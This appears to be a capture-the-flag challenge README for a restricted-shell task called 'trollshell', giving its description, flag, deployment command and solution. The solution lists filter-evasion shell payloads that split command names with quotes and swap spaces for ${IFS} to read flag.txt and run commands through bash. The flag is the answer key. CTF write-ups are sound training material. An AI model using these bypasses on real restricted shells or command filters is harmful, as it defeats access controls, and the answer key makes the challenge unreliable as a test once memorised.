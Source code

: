 # Challenge 2: Restricted Shell
(medium, blackbox)

## Name
trollshell

## Description
I've obtained a shell.. but at what cost?

## Flag
BKSEC{restricted_shells_are_always_fun}

## Deployment
docker compose up


## Solution
```bash
l's'${IFS}-la

c'a't${IFS}flag.txt

e'c'ho${IFS}${HOME:0:1}challenge${HOME:0:1}.xin_flag${IFS}|ba's'h (spam đến baoh ra flag thì thôi)
```
